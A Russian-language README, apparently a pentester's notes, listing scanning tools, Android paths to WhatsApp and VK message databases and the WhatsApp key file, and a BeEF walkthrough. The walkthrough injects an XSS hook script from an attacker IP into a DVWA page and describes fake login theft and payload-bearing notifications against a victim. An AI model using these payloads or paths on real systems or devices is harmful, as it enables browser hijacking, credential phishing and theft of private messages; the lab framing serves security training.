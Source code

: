 # Collection of utilities




## общие ресурсы

#### OWASP (https://www.owasp.org/index.php/Main_Page)

это открытый проект по обеспечению безопасности веб-приложений. На нем содержится большое количество материалов, гайдов по тестированию, разные чек-листы и другие материалы
обязательное изучения:

>https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project
>https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

#### exploit-db (https://www.exploit-db.com/)

#### IPper https://ipper.ru/

#### браузер


## сканирование сайта

#### Dnsrecon (Kali)
Утилита на Python, которая отображает хосты, домены и другую информация о сайте. 

Для базового тестирования:
> dnsrecon -d site.com

для брута деректорий:
> dnsrecon -d c -D /root/dnsmapCommonSubdomains.txt

#### Dirb (Kali)
Он покажет всевозможные существующие страницы, где ответы не содержат код страницы 404. 
> dirb site.com

#### Nmap (Kali)
Сетевой сканер, который позволяет показать какие порты используются и что на них установлено.





## Wordpress

#### WPscan (Kali)
> wpscan -u site.com

после найти уязвимости: exploit-db


## андроид

#### сообщениям WhatsApp

##### контакты

> /data/data/com.whatsapp/databases/wa.db

##### сообщения

> /data/data/com.whatsapp/databases/msgstore.db

##### ключ шифрования

> /data/data/com.whatsapp/files/key

##### резервные хранятся

> /sdcard/WhatsApp/Databases/msgstore.db.crypt7

### анализ

Andriller (https://www.andriller.com/download/)

WhatsApp Viewer (https://andreas-mausch.de/whatsapp-viewer/): Small tool to display chats from the Android msgstore.db.

### VK Coffee

#### Сообщения 

> /data/data/su.operator555.vkcoffee/databases/databaseVerThree.db 
> /data/data/su.operator555.vkcoffee/databases.vk.db

#### Группы

> /data/data/su.operator555.vkcoffee/databases/groups.db

### VK official

#### Сообщения

> /data/data/com.vkontakte.android/databases/vkim.sqlite
> /data/data/com.vkontakte.android/databases/vk.db

#### Список групп

> /data/data/com.vkontakte.android/databases/groups.db

### Kate Mobile

#### Сообщения+группы 

> /data/data/com.prem.kate_new_6/databases/kate.db

## пользователь — браузер

#### BeFF 
это инструмент работает через браузеры. Проще говоря, Биф это комбайн для эксплуатации XSS и используется при проведение MITM атак.

Главная потребность после получения сессии — закрепиться в системе. Наша сессия будет активна, пока жертва не закроет страницу. Для этого нужно воспользоваться дополнительными инструментами, которые интегрированы в утилиту. 

> sudo beef-xss

> http://localhost:3000/ui/panel/ (beef / beff)

> <script src = "http: //192.168.24.99.06000/hook.js"> </ script>

> // где вместо 192.168.24.99 нужно указать IP своей машины, на которой установлен Beef. 

> Находим целевую страницу, где можно вставить нашу ссылку. В моем случае:

> http://192.168.24.98/DVWA-master/vulnerabilities/xss_r/?name=

> http://192.168.24.98/DVWA-master/vulnerabilities/xss_r/?name=<script src="http://192.168.24.99:3000/hook.js"></script>

Далее вмонтируем этот скрипт в любую форму, которая поддерживает XSS. (если вам интересно, то плагин называется HackBar). После выполнения запроса получаем новый Online Browser. После подключения, вы сможете следить за тем, чем занимается цель, какая у нее позиция курсора и что происходит. Это очень важная информация для получения подходящего момента проведения атаки. 

После того, как вы получили логи, где вам видно, например, что пользователь перешел на сайт Facebook, мы можем ему подсунуть фейковую авторизацию. Для этого будем использовать команду Pretty theft из раздела Social Engineering. 

С помощью этой команды можно организовать фейковую авторизацию для Linkedin, Facebook, Windows, YouTube, Yammer, IOS, Generic. Также можно поиграть с цветами форм и их адаптацией к максимально реальным. Очень хорошая вещь, особенно если наша цель сейчас находится на сайте. 

Также есть крутая атака с поддельным уведомлением в статус баре. Для этого можно воспользоваться Fake Notidication Bar для конкретного браузера. В результате жертва получает вот такое уведомление, что максимально приближено к реальному. вы можете настроить под себя надпись и ссылку, по которой перейдет цель. Сюда нужно добавлять полезные нагрузки для получения полного контроля над машиной нашей цели.

###### Chrome Extension, под названием Screenshot
можно сделать скриншот (Пока это работает только для Chrome).

###### возможности выполнения любого javascript на стороне цели
Для реализации вам необходимо перейти в Misc и выбрать Raw JavaScript. После этого можно будет внедрить любой код и нажать Execute.

## тренинг

#### Damn Vulnerable Web Application (DVWA) (http://www.dvwa.co.uk/)

Это сайт на PHP, который демонстрирует ряд уязвимостей для изучения

#### Buggy web application (bWAPP) (http://www.itsecgames.com/)

Это открытое приложение и включает в себя около сотни уязвимостей, которые классифицируются по OWASP. Также есть готовая сборка для виртуальной машины bee-box.

## безопасность

WebRTC: может «засветить» реальный IP юзера, несмотря на использование VPN, Tor, Proxy.

# I just found the contents of this repository around the web.
